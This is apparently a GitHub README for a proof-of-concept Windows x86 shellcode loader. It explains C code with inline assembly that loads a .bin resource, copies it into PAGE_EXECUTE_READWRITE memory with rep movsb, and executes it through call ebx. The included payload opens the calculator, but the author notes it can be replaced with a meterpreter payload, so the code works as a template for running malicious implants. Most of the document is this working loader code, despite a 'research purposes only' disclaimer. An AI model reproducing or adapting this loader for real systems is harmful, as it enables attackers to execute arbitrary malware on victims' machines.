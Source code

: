 # Create_Thread: Inline_Assembly_x86
This POC provides the ability to execute x86 shellcode in the form of a .bin file based on x86 inline assembly.
The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a meterpreter .bin payload.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
```// Load the resource
    HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
```    DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
```    // Allocate executable memory
    void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    // Copy the resource data to the executable memory
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    // Execute the code in the executable memory
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    // Free the executable memory
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
}
```
